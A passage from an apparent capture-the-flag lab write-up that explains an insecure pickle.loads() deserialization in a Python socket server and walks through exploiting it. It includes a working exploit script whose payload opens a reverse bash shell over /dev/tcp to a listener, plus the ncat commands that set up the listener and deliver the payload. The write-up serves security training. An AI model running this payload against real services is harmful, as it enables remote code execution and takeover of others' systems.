 ```python

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
      clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
      server(clnt)
      exit(1)
```

The vulnerability in this code lies the program deserializing data it reads
from the socket via `pickle.loads()`. The pickle module should never be used
to deserialize untrusted data because it is trivial to obtain code execution.

```python
  obj = pickle.loads(line)
```

We start by setting up our netcat listener as usual:

```shell
ncat -nlvp 8000

Ncat: Version 7.60 ( https://nmap.org/ncat )
Ncat: Generating a temporary 1024-bit RSA key. Use --ssl-key and --ssl-cert to use a permanent one.
Ncat: SHA-1 fingerprint: 5F3F 6ECC 75A2 4FF9 C358 2913 09FF 5C75 6D50 F5A4
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
```

We use the below Python script to generate an `exploit.pickle` file that
contains our exploit.

```python
import cPickle
import os

class Exploit(object):
    def __reduce__(self):
        return (os.system, (("bash -i >& /dev/tcp/192.168.144.1/8000 0>&1"),))

with open("exploit.pickle", "wb") as f:
    cPickle.dump(Exploit(), f, cPickle.HIGHEST_PROTOCOL)
```

We run the below command using the generated the `exploit.pickle`.

```shell
root@kali:/mnt/hgfs/Share# cat exploit.pickle | ncat 192.168.144.192 10007
Accepted connection from 192.168.144.1:51252
```


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md
